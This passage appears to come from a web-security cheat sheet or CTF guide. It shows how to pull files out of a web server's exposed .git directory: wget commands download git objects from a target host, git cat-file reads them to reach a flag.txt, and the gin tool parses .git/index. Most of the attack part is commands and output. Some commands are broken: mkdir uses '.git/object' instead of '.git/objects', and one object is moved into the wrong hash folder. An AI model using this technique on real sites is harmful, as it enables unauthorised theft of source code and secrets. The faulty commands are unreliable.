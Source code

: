   ```powershell
  # download the file
  wget http://web.site/.git/objects/26/e35470d38c4d6815bc4426a862d5399f04865c

  # first byte for subdirectory, remaining bytes for filename
  mkdir .git/object/26
  mv e35470d38c4d6815bc4426a862d5399f04865c .git/objects/26/

  # display the file
  git cat-file -p 26e35470d38c4d6815bc4426a862d5399f04865c
      tree 323240a3983045cdc0dec2e88c1358e7998f2e39
      parent 15ca375e54f056a576905b41a417b413c57df6eb
      author Michael <michael@easyctf.com> 1489390329 +0000
      committer Michael <michael@easyctf.com> 1489390329 +0000
      Initial.
  ```
4. Access the tree 323240a3983045cdc0dec2e88c1358e7998f2e39
  ```powershell
  wget http://web.site/.git/objects/32/3240a3983045cdc0dec2e88c1358e7998f2e39
  mkdir .git/object/32
  mv 3240a3983045cdc0dec2e88c1358e7998f2e39 .git/objects/32/

  git cat-file -p 323240a3983045cdc0dec2e88c1358e7998f2e39
      040000 tree bd083286051cd869ee6485a3046b9935fbd127c0        css
      100644 blob cb6139863967a752f3402b3975e97a84d152fd8f        flag.txt
      040000 tree 14032aabd85b43a058cfc7025dd4fa9dd325ea97        fonts
      100644 blob a7f8a24096d81887483b5f0fa21251a7eefd0db1        index.html
      040000 tree 5df8b56e2ffd07b050d6b6913c72aec44c8f39d8        js
  ```
5. Read the data (flag.txt)
  ```powershell
  wget http://web.site/.git/objects/cb/6139863967a752f3402b3975e97a84d152fd8f
  mkdir .git/object/cb
  mv 6139863967a752f3402b3975e97a84d152fd8f .git/objects/32/
  git cat-file -p cb6139863967a752f3402b3975e97a84d152fd8f
  ```

#### Recovering file contents from .git/index

Use the git index file parser https://pypi.python.org/pypi/gin (python3).

```powershell
pip3 install gin
gin ~/git-repo/.git/index
```

Recover name and sha1 hash of every file listed in the index, and use the same process above to recover the file.

```powershell
$ gin .git/index | egrep -e "name|sha1"
name = AWS Amazon Bucket S3/README.md
sha1 = 862a3e58d138d6809405aa062249487bee074b98

name = CRLF injection/README.md
sha1 = d7ef4d77741c38b6d3806e0c6a57bf1090eec141
```
